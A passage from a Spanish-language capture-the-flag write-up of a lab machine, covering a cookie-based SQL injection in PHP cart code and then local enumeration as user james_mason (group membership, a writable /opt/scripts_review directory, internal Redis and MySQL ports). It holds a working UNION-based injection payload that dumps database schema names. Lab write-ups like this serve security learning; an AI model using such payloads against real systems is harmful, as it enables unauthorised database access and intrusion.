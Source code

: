 ```test' union select 1,group_concat(schema_name),3 from information_schema.schemata-- -```
    }
    
    $conn->close();
?>
```

Podemos ver que de la cookie *custom_cart* coge el campo del producto, llamado *code*, y **lo sustituye directamente en la *query sql*** haciéndolo vulnerable a SQLI.  

Además, ya le encontramos sentido a por qué cuando poníamos palabras que contenían las cadenas ***sleep*** o ***benchmark*** nos devolvían un resultado diferente. 

#### Grupos de james_mason 

Vemos que ***james_mason*** pertenece a un grupo interesante llamado ***developer***.

```python
james_mason@shared:~$ id 
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
```

Si listamos todos aquellos ficheros y directorios del sistema que tengan como grupo *developer* nos encontraremos con el siguiente directorio. Tenemos **todos los permisos** sobre la carpeta ***scripts_review***. No hay nada en su interior.

```python
james_mason@shared:/home/dan_smith$ find / -group developer 2>/dev/null -ls
    46286      4 drwxrwx---   2 root     developer     4096 Sep 30 08:47 /opt/scripts_review
```

#### Puertos abiertos 

Dejando apartado el punto anterior, si listamos los **puertos abiertos**, nos encontramos con que la máquina esta corriendo internamente el servicio de ***Redis*** (6379) y ***msyql*** (3306).
 
```python
james_mason@shared:~$ netstat -natp tcp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0     36 10.10.11.172:22         10.10.14.12:60390       ESTABLISHED -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -       
```
